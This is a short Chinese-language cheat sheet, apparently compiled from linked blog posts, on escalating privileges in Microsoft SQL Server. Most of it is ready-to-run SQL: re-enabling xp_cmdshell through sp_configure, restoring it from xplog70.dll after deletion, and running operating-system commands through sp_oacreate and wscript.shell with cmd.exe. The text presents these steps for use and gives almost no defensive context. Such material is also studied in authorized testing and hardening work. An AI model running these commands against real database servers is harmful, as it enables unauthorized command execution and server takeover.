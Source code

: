 https://blog.csdn.net/m0_58606546/article/details/121591753

## MSSQL

https://blog.51cto.com/u_11797152/2411770

1.使用xp_cmdshell进行提权

`xp_cmdshell` 默认在 mssql2000 中是开启的，在mssql2005之后的版本中则默认禁止。如果用户拥有管理员sa权限则可以用sp_configure 重修开启它。

启用：

```
EXEC sp_configure 'show advanced options', 1;RECONFIGURE;

EXEC sp_configure 'xp_cmdshell', 1;RECONFIGURE;
```

关闭：

```
exec sp_configure 'show advanced options', 1;
reconfigure;

exec sp_configure 'xp_cmdshell', 0;
reconfigure;
```

执行：

```
EXEC master.dbo.xp_cmdshell '命令';
```

如果xp_cmdshell被删除了，可以上传xplog70.dll进行恢复

```
exec master.sys.sp_addextendedproc 'xp_cmdshell', 'C:\Program Files\Microsoft SQL Server\MSSQL\Binn\xplog70.dll';
```

2、sp_oacreate进行提权

```
主要是用来调用OLE对象，利用OLE对象的run方法执行系统命令。
启用：
EXEC sp_configure 'show advanced options', 1;   
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 1;   
RECONFIGURE WITH OVERRIDE;   
关闭：
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE WITH OVERRIDE;   
EXEC sp_configure 'Ole Automation Procedures', 0;   
RECONFIGURE WITH OVERRIDE;  
执行：
declare @shell int exec sp_oacreate 'wscript.shell',@shell output exec sp_oamethod @shell,'run',null,'c:\windows\system32\cmd.exe /c whoami >c:\\1.txt'
```
